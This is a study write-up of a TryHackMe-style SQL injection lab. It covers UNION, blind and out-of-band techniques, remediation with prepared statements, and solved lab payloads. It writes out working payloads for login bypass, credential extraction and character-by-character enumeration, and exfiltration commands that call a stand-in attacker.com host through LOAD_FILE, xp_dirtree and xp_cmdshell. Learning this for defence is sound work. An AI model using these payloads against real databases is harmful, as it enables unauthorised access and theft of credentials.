

<div align="center">


# SQL Injection Introduction
**Difficulty:** Easy
**Category:** SQL Injection / DB

</div>

---


## Comments
`--` or `#` is single line comments and can be used as such:
```MySQL
SELECT * FROM users WHERE username = 'INPUT' AND pasasword='secret';

SELECT * FROM users WHERE username = 'admin'-- AND password='secret';
SELECT * FROM users WHERE username = 'admin'# AND password='secret';
```
Everything after the comment symbol is ignored, making it so that the password is not needed. We only need to supply a username.
* The password check never runs.


## Union

The `UNION` operator combines the results of tow or more `SELECT` statements into a single result set. One critical rule: **both `SELECT` statements must return the same number of columns,** and the columns should have compatible data types.
```MySQL
SELECT name, age FROM students UNION SELECT username, id FROM admins;
```
* Attackers can use `UNION` to append their own `SELECT` statement into a legitimate query, pulling data from an entirely different data table.
* If the original query `SELECT name,age FROM students` returns two values (name, age), we must return two values from admins (username, id). If there are more values we have to get them separately.

## LIKE and WILDCARDS
The `LIKE` operator performs pattern matching on strings. The `%` wildcard matches any sequence of characters, and `_` matches exactly one character.
```MySQL
SELECT * FROM users WHERE username LIKE 'adm%';
```
* This returns any username starting with "adm" (admin, administrator). In Blind SQL Injection, attackers use `LIKE` with wildcards to enumerate data one character at a time, testing `LIKE 'a%'`, `LIKE 'b%',` and so on until they find a match.

## LIMIT
The `LIMIT` clause limits the number of rows returned. The syntax `LIMIT offset, count`lets you skip and control output size.
```MySQL
SELECT * FROM users LIMIT 1; -- returns only the first row
SELECT * FROM users LIMIT 2,1; -- skips 2 rows, returns the 3rd
```
* In Injection Payloads, `LIMIT`is often used to control which row is returned or to prevent the output from being overwhelmed by too many results.

## String Functions
Two functions are especially useful when extracting data through injection:
* `group_concat()`aggregates values from multiple rows into a single comma-separated string. Instead of getting results row by row, you get everything at once:
```MySQL
SELECT group_concat(username, ':', password SEPARATOR '<br>') FROM users;
-- Returns: admin:pass123<br>martin:secret<br>jim:work456
```

* `CONCAT()`joins individual values together: `CONCAT(username, ':', password)`produces `admin:pass123`for a single row.
* This is cool, you can specify the `SEPARATOR` to parse the output and make it look clean. With HTML?

## The information_schema Database

Every MySQL, MariaDB and PostgreSQL server has a built-in database called `information_schema.`It contains metadata about every other database on the server: database names, table names, column names, and data types. Think of it as the database's map of itself:

Two tables within `information_schema`are particularly valuable during SQL Injection:
* `information_schema.tables:` lists every table. The `table_schema`column holds the database name, and `table_name`holds the table name.
* `information_schema.columns:`lists every column. The `table_name`and `column_name`columns let you discover the structure of any table.

When performing `UNION-`based injection, `information_schema`is how you go from "I can inject" to "I know every table and column in this database."

## Where the vulnerability LivesUnion-based

```php
$query = "SELECT * FROM articles WHERE ID = " . $_GET['id'] . " AND public = 1;";
```
* Whatever you put in the `id`parameter becomes part of the SQL query. If you change the URL to `?id=1 OR 1=1--`, the query becomes:
```MySQL
SELECT * FROM articles WHERE id ? 1 OR 1 = 1-- AND public = 1;
```
The `OR 1=1`makes the `WHERE`clause always true, and the `--`comments out the `AND public = 1`check. The database now returns every article, including private ones.

## Three Types of SQL Injection

**In-Band SQL Injection** is when the results of the injection are displayed on the web application.
* **Error-Based:** The database returns error messages that reveal information about its structure (Type of database, version, etc.)
* **Union-Based:** The attacker uses `UNION`to append a second query and extract data through the page output.

**Blind SQL Injection** is when the application does not display query results or error messages. The attacker must infer information from indirect signals.
* **Authentication Bypass:** The login succeeds or fails based on the injected query.
* **Boolean-Based:** The application's response changes subtly (e.g.., different content, true / false) based on whether a condition is true.
* **Time-Based:** The attacker uses `SLEEP()`to introduce a time delay and observes whether the response is slow (true) or fast (false).

**Out-of-Band SQL Injection** is when the attacker causes the database server to make an external network request (e.g., a DNS lookup) that exfiltrates data through a separate channel. This is used when neither in-band nor blind techniques are viable.
* What the helly, this sounds crazy?

## Common Ways of Detecting SQL Injection
* Entering a single quote: `'`. If the application returns a database error, the input is likely being inserted into a SQL query without proper handling. 
* Try `"`(double quote). Some queries use double quotes instead of single ones.
* Enter `;--`. If the application behaves differently (e.g., returns different content), the comment syntax is being processed.
* Test `OR 1=1`. If it changes the results, the input is directly in the query's logic.

# In-Band SQL Injection

The term "In-Band" means the same communication channel used to deliver the injection is also used to receive the results.

## Union-Based SQL Injection

Appends your own `SELECT`query to the original one, pulling data from any table the database user has access to.

### Step 1: Determine the number of columns
`UNION`requires that both queries have the same number of columns. You discover this by injecting `UNION SELECT` with an incrementing number of values until the error disappears:
```MySQL
1 UNION SELECT 1     -- error (wrong column count)
1 UNION SELECT 1,2   -- error (still wrong)
1 UNION SELECT 1,2,3 -- success! The table has 3 columns
```

### Step 2: Identify which columns are displayed
Not all columns may be rendered on the page. Change the original query's value to something that returns no results (like `0`), so only the `UNION`output is displayed:
```MySQL
0 UNION SELECT 1,2,3
```
* The number that appears on the page output tell you which column positions you can use for data extraction. If `3`appears in the content area, that is your extraction column.

### Step 3: Extract the database name
Replace the visible column position with the `database()`function:
```MySQL
0 UNION SELECT 1,2,database()
```
* Reveals the current database.

### Step 4: Enumerate tables
Use `information_schema.tables` to list tables in the target database:
```MySQL
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'database_name'
```
* This will display all the table_names, from the table_schema (database) = 'database_name'.

### Step 5: Enumerate columns
Once you've identified an interesting table, get its column names:
```MySQL
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'target_table'
```
* `information_schema.columns`holds all the columns in the database. Provide a table name, and get all columns in that table.

### Step 6: Extract data
With the table and column names known, extract the actual data:
```MySQL
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM target_table
```
* Returns all usernames and passwords in a readable format. 

Use `0`or `-1`to completely remove the original query, so that the only thing that shows is our own `SELECT`query. This will show due to the `UNION` parameter.

# Blind SQL Injection (Authentication Bypass)
What happens when the application does not display any database output or error messages? This is where `Blind SQL Injection`comes into play.

## How Authentication Queries Work

Most login forms work by sending the username and password to the server, which constructs a query like:
```MySQL
SELECT * FROM users WHERE username = 'bob' AND password = 'secret123' LIMIT 1;
```
* `LIMIT` - Only get the first entry. Although there shouldn't be any more entries with both the same username AND password.

## The Attack
The key insight is that you don't need to know a valid username or password. You just need to make the query return at least one row. Consider what happens if you enter the username `' OR 1=1;--`and anything in the password field. The server constructs:
```MySQL
SELECT * FROM users WHERE username = '' OR 1=1;-- AND password = 'secret123' LIMIT 1;
```
Broken down:
* `username=''` checks for an empty username (no match)
* `OR 1=1` this is always true, so the entire `WHERE` clause becomes true
* `;--`the semicolon ends the statement, and `--`comments out everything after it, including the password check.
* The database returns every row in the `users` table (the LIMIT 1; is removed).
* The application sees that rows were returned and logs you in as the first user (often the admin account). (Does it really work like that?)

## Targeting a Specific User
If you have a username, you can inject something like: `admin' --`, which produces:
```MySQL
SELECT * FROM users WHERE username = 'admin'-- ' AND password='anything' LIMIT 1; 
```
* NOTE: There needs to be a space between the `--` and  `'` in order to turn the rest of the check into an actual comment.
* The password check is completely commented out. The database returns the admin row, and you're logged in as admin without needing a password.

## Variations
* `' OR 1=1;--`is classic bypass, works when the username is wrapped in single quotes.
* `' OR 1=1#` this uses `#`as the comment character (Only MySQL alternative).
* `" OR 1=1--`for queries that use double quotes around the input.
* Try both the username and password fields: some applications only concatenate one of them into the query.


# Blind SQL Injection (Boolean and Time-Based)

## Boolean-Based
In `Boolean-Based Blind SQLi`, the application returns a binary signal. Some kind of true/false difference. Maybe page content, a JSON response like `{"taken":true}` vs `{"taken":false}`.

**The Idea:** Imagine a username-check feature that tells you whether an account exists. `http://website.thm/checkuser?username=admin`returns `{"take":true}`because admin is taken. `?username=123`returns `{"taken":false}`because that user does not exist.

This could be the backend:
```MySQL
SELECT * FROM users WHERE username = '%username%' LIMIT 1;
```
* By injecting a `UNION SELECT`with a condition, you can ask the database arbitrary yes/no questions and read the answer from the true/false response.

### Step 1: Confirm Injection
Inject a condition that is always true:
```MySQL
admin123' UNION SELECT 1,2,3 WHERE database() LIKE '%';--
```
* The `%`wildcard matches anything, so this should return true. If you see `{"taken":true}`, you know injection works.
* The username shouldn't exist, but it does because of the "always true"-clause. (Indicating injection).

### Step 2: Guess the database name, character by character
Replace the wildcard with specific letters:
```MySQL
admin123' UNION SELECT 1,2,3, WHERE database() LIKE 'a%';--
```
False? Not 'a'. Try `b%`, `c%`, and keep going. When the response flips to true, you have found the first letter. Then move to the second character: `sa%`, `sb%`, `sc%` and so on.

This is so cool
* This all relies on the field for if a username is taken or not. If admin123 is not taken, and the database's name starts with a then:
```MySQL
admin123' UNION SELECT 1,2,3 WHERE database() LIKE 'a%';-- 
```
Will return true, indicating that the database starts with an `a`.

### Step 3: Get table and column names
Same technique as before, but now against information_schema:
```MySQL
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'db_name' AND table_name LIKE 'a%';--
```
* Okay, because we have found the database name, we can use that and look for tables inside of that database.

Cycle this for columns when a table is found:
```MySQL
admin123' UNION SELECT 1,2,3 FROM information_schema.columns WHERE table_name = 'target_table' AND column_name LIKE 'a%';--
```

## Time-Based
This is for when the application gives you absolutely nothing to work with visually. The page looks identical no matter what you inject. Same content, same status code, same headers. Your only signal is **how long the response takes**. 

MySQL's `SLEEP()`function pauses query execution for a set number of seconds. Wrap a condition around it, and the database only pauses when the condition is true:
```MySQL
admin123'' UNION SELECT SLEEP(5),2 WHERE database() LIKE 'a%';-- 
```
* If the database name starts with `a`, the response takes around 5 seconds. If not , it comes back right away.

### Step 1: Find the column count
Same idea as in `UNION-Based`. Try `UNION SELECT SLEEP(5)`and add columns until you see a delay:
```MySQL
admin123'' UNION SELECT SLEEP(5); --    no delay (wrong count)
admin123'' UNION SELECT 1,SLEEP(5); --  5 second delay (2 columns!) 
```

### Step 2: Enumerate data
Identical to `Boolean-based`, cycle through letters with `LIKE`. But instead of checking the page contents, look at the clock. Delay means true, no delay means false.
```MySQL
admin123'' UNION SELECT 1,SLEEP(5) WHERE database() LIKE 'a%';--
```

# Out-Of-Band Injection
`Out-Of-Band` (`OOB`) injections comes into play when everything else has failed:

* The database server has to be able to make `outbound connections`. If the firewall blocks all outbound traffic from the DB server, OOB is dead in the water.

So, only use when everything else has failed, but the target has internet access.

## How it works
Two channels are involved:
1. The **attack channel:** your normal web request with the injection payload.
2. The **data channel:** an outbound network request (DNS or HTTP) that the database server makes to your server, with the exfiltrated data baked into the request itself.

## DNS Exfiltration With MySQL

The most common `OOB` trick for MySQL uses `LOAD_FILE()` to trigger a DNS lookup. You embed the data you want as a SUBDOMAIN:
```MySQL
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.attacker.com\\share'));
```
* THIS IS SO COOOL!

What happens:
1. `(SELECT database())` pulls the database name. Let's say it is `webapp_db`.
2. `CONCAT()` builds the string `\\webapp_db.attacker.com\share`.
3. `LOAD_FILE()` tries to read the file path. On Windows, this initiates a DNS lookup for `webapp_db.attacker.com`.
4. Your DNS server catches the request and logs `webapp_db`. The data is in the subdomain.

This works best on Windows-based MySQL servers where UNC paths trigger DNS resolution.
   
## MSSQL Techniques

Microsoft SQL Server has stored procedures that make OOB more direct:

`xp_dirtree` triggers a DNS lookup bytrying to list a directory on a remote server:
```MSSQL
EXEC master..xp_dirtree '\\attacker.com\share';
```

`xp_cmdshell`(if it is enabled) runs OS commands directly, so you can use `nslookup`or `curl`to ship data out:
```MSSQL
EXEC xp_cmdshell 'nslookup data.attacker.com';
```
`xp_cmdshell`is off by default in modern MSSQL, but `xp_dirtree`is still available and gets used regularly in pentests.

### Receiving the Data

You need something listening on your end to catch what the database sends. A few options:
* **Burp Collaborator** gives you a unique subdomain and logs any DNS or HTTP requests to it. Inject the Collaborator domain into your payload, check the Collborator tab for callbacks.
* **Interactsh** from ProjectDiscovery does the same thing but is free and can be self-hosted.
* A **custom listener**, like a Python DNS server with `dnslib`or a bare-bones HTTP server, if you want full control.
### Limitations

OOB has constraints worth knowing:
* The database server needs **outbound network access** (many production setups restrict this)
* Payloads are **database-engine-specific**. MySQL, MSSQL, and PostgreSQL each need different syntax.
* DNS exfiltration has a **size limit**: subdomain labels are limited to 63 characters each.
* It is generally slower and flakier than pulling data directly.
# Remediation and Prevention
## Prepared Statements (Parameterized Queries)
Separates SQL code from data. Treating the input separately, as data only.

**Vulnerable PHP code:**
```PHP 
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";
$result = mysqli_query($conn, $query);
```
User input gets concatenated into the query string. An attacker can escape quotes and inject whatever they want.

**Fixed with prepared statements (PDO):**
```PHP
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$_POST['username']]);
$result = $stmt->fetchAll();
```
The `?`is a placeholder. Whatever the user enters, eve, `' OR 1=1--`, the database treats the whole thing as a literal string. It never touches the query structure.

**Vulnerable Python Code:**
```python
query = f"SELECT * FROM users WHERE username = '{username}'"
cursor.execute(query)
```

**Fixed:**
```python
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```
`%s`is a parameter placeholder. The MySQL connector handles escaping and binding for you.

Every language can use this as a fix. Define the query with placeholders, and pass user input as parameters. SQL Injection is gone because the input physically cannot change the query structure.

## Input Validation

Input validation controls what the application accepts before anything reaches the database. The best approach is `allowlisting` (instead of blacklisting, where you can forget to blacklist something that will break the query).

If a parameter should be a numeric article ID, check it:
```php
if (!ctyep_digit($_GET['id'])){
	die("Invalid input");
}
```

Never rely on validation alone. Use it alongside of prepared statements. Blocklisting (trying to filter out characters like `'` or `--` ) is hard. Attackers always find ways around the filtering. 

## Principle of Least Privilege
This is a big one, applications should only have access to do the things that they are built for. Nothing else. There shouldn't be a user for example with all permissions. That user should only have the permissions to do the stuff that they are ordered to do.

* Read-only application? The account gets `SELECT`privileges and nothing else.
* Never connect as `root`or `sa`from the application.
* Lock down access to sensitive tables so only the procedures that need them can reach them.

## Web Application Firewalls (WAFs)
A WAF inspects incoming request s and blocks known attack aptterns: `' OR 1=1`, `UNION SELECT`, `information_schema`.
* This can be bypassed by using base64 and decoding it in the query, or something like that.

# Practical Examples

## 1
DB:
* sqli_one
	* article
	* staff_users
		* id
		* username
		* password
```MySQL
https://website.thm/article?id=0 UNION SELECT 1,2,group_concat(username,":",password SEPARATOR  '<br>') FROM staff_users
```


```
THM{_3<REDACTED>840}
```

## 2
```MySQL
SELECT * FROM users WHERE username = '' OR 1=1; -- 'AND password = 'password' LIMIT 1; 
```

```
THM{58<REDACTED>1}
```

## 3
DB:
* sql_three
	* users
		* id
		* username
			* admin
		* password
```MySQL
https://website.thm/checkuser?username=Ronny' UNION SELECT 1,2,3 FROM users WHERE password LIKE '3845';
```

```
THM{_10<REDACTED>93}
```

## 4
DB:
* sqli__four
	* users
		* username 
			* admin
		* password
		* 4961 
```MySQL
https://website.thm/analytics?referrer=tryhackme.com' UNION SELECT 1,SLEEP(2) WHERE database() LIKE 'sqli_four';
```

This is cringe, underscore is a wildcard for a singular character...

```MySQL
https://website.thm/analytics?referrer=tryhackme.com' UNION SELECT SLEEP(2),2 FROM users WHERE password LIKE '4961';
```

```
THM{SQL_<REDACTED>MASTER}
``` 